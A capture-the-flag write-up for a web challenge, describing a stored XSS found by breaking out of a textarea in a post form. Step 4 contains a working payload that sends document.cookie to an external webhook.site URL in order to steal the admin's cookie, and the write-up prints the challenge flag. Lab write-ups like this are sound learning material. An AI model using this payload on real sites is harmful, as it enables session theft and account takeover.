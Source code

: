 # Challenge `Go on and censor my posts` writeup

- Vulnerability: XSS
- Where: In the post creation form's content field
- Impact: It allows the retrieval of a remote user's (in this case, the admin's) cookies

## Finding the vulnerability / Steps to reproduce

1. The post creation form contains both an `input` field (the title) and a `content` field. Attempting to add a regular XSS exploit payload has no effect (i.e., no information is leaked).
2. However, enclosing a payload with the `textarea` closure and opening tags allows the execution of an arbitrary script.
3. Just like in the previous challenges, a web server must be set up to intercept requests.
4. Using the previous script has a problem: it redirects the attacker to the web server's page (showing their own cookies) with no opportunity to confirm the post and send it to the admin for their cookies to be shown as well. An alternative involves using an XMLHttpRequest to send the request in the background (`</textarea><script>const xhr = new XMLHttpRequest(); xhr.open("POST", "https://webhook.site/6fe0e568-0fad-4d39-b043-2510c31a899c", false);xhr.send(document.cookie)</script><textarea>`), which, once submitted for approval, leads to the retrieval of the admin's cookie/flag (`SSof{I_do_not_get_this__Too_many_weird_characters__Automatic_reject}`).